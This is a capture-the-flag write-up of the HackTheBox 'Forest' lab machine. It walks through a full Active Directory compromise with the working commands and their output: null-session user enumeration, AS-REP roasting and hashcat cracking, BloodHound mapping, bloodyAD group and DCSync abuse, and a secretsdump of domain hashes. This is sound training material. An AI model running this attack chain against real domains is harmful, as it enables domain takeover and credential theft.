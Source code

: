 ```yaml
---
title: Forest (Easy) - HackTheBox
date: 2024-05-24 12:00:00 +/-TTTT
categories: [Writeups]
image:
    path: /assets/img/forest/thumbnail.png
---
```



Forest is an easy level box, which involves pure Active Directory attacks. The box starts out with enumerating all the users within the domain by using a null rpc session. We can then leverage this user list to find an AS-REP roastable user. By AS-REP roasting this user, we are able obatin their hash, which can then be cracked using HashCat. We leverage this user to run Bloodhound and find out we can add ourselves to a high privilaged group, allowing WriteDACL over the domain.

### Initial Enumeration
Run Nmap to see all open ports

``` bash
sudo nmap -sV -sC 10.129.95.210 -oN scan.nmap -v
```

``` bash
# Nmap 7.94SVN scan initiated Wed Sep  4 21:29:53 2024 as: nmap -sV -sC -oN scan.nmap -v 10.129.95.210
Nmap scan report for 10.129.95.210
Host is up (0.051s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-05 01:36:50Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m31s, median: 6m48s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-09-04T18:36:55-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-09-05T01:36:56
|_  start_date: 2024-09-05T01:33:34

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 21:30:15 2024 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

See port `88` up as Kerberors, and port `3268` as LDAP, this tells me this is most likely a Windows DC. I started out by checking if null sessions were allowed with SMB.

Running the following proves that a null session is allowed, but unable to list shares

``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --shares

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### Foothold via ASREPRoast

#### Creating a Userlist

Due to no access to signifigant access the domain controller through a null session, I decided to use the null session to enumerate users on the machine. If we get a list of valid users I could enumerate users vulnerable to ASREProasting, due to no pre-authentication required 

I first checked it the null session was allowed to enumerate users with NetExec


``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --users

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.95.210   445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.129.95.210   445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.95.210   445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.129.95.210   445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
<SNIP>
SMB         10.129.95.210   445    FOREST           svc-alfresco                  2024-09-05 01:44:34 0
SMB         10.129.95.210   445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.129.95.210   445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.129.95.210   445    FOREST           santi                         2019-09-20 23:02:55 0
```

As seen above the anonymous user is allowed to get all domain users. To get a list of these user, I used rpcclient and vim macros.

``` bash
$ rpcclient -U "" -N 10.129.95.210 -c enumdomusers | tee users.txt
```

Now that I have my users list, I ran `GetNPUsers.py`, which looks for users which do not require pre-authenticaiton, the tool also automatically requests and saves a vulnerable user's hash.

#### Cracking svc-alfresco's hash

``` bash
$ impacket-GetNPUsers 'htb.local/' -dc-ip 10.129.95.210 -usersfile users.txt -format hashcat -outputfile asrep-hashes.txt

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
<SNIP>
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Running this, the user `svc-alfresco` does not require pre-authentication. Now that the user's hash is saved, I forwarded to hashcat to crack.

```bash
$ hashcat asrep-hashes.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f...5c0bb5
Time.Started.....: Wed Sep  4 22:02:11 2024 (9 secs)
Time.Estimated...: Wed Sep  4 22:02:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   447.1 kH/s (0.73ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4085248/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s402gercd -> s3r3ndipit
Hardware.Mon.#1..: Util: 70%

Started: Wed Sep  4 22:02:09 2024
Stopped: Wed Sep  4 22:02:22 2024
```


The user's hash is sucessfully cracked and we can now log in as that user

``` bash
$ nxc smb 10.129.95.210 -u "svc-alfresco" -p "s3rvice"

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice
```


### Abusing ACLs

#### Running Bloodhound

I decided to run Bloodhound to find any possible relations from our current user

``` bash
$ nxc ldap 10.129.95.210 -u "svc-alfresco" -p "s3rvice" --bloodhound -c all --dns-server 10.129.95.210 --dns-tcp

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.95.210   389    FOREST           [+] htb.local\svc-alfresco:s3rvice
LDAP        10.129.95.210   389    FOREST           Resolved collection methods: localadmin, acl, objectprops, trusts, group, dcom, psremote, session, rdp, container
LDAP        10.129.95.210   389    FOREST           Done in 00M 17S
LDAP        10.129.95.210   389    FOREST           Compressing output into /home/parallels/.nxc/logs/FOREST_10.129.95.210_2024-09-04_220801_bloodhound.zip
```


Checking this user's transitive object control, I was able to map the following path in Bloodhound.

![bloodhound path](/assets/img/forest/1.png)

Through nested groups, our user is apart of the `Account Operators` AD group, this group allows `GenericAll` rights over the group `EXCHANGE WINDOWS PERMISSIONS`. GenericAll permissions over a group allow us to add a user to that group. Once we have control over `EXCHANGE WINDOWS PERMISSIONS`, we can legerage `WriteDACL` to permit a user DCsync rights over the domain, effectivly compromising the domain through a DCsync attack.

I use `Bloody-AD` to create a new user to be used with this attack, we are allowed to do this because we are in the `Account Operators` group.

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add user "jeff" "password123\!"
[+] jeff created
```

As mentioned earlier, we'll add our new user jeff to `EXCHANGE WINDOWS PERMISSIONS`

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add groupMember "EXCHANGE WINDOWS PERMISSIONS" "jeff"
[+] jeff added to EXCHANGE WINDOWS PERMISSIONS
```
Using the user jeff, we can attempt to add DCSync privilages over the domain


```bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "jeff" -p "password123\!" add dcsync jeff
[+] jeff is now able to DCSync
```

### Domain Comprimise

We can now run secrets dump, given our new privilages.

``` bash
$ secretsdump.py htb.local/jeff:'password123!'@10.129.95.210

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```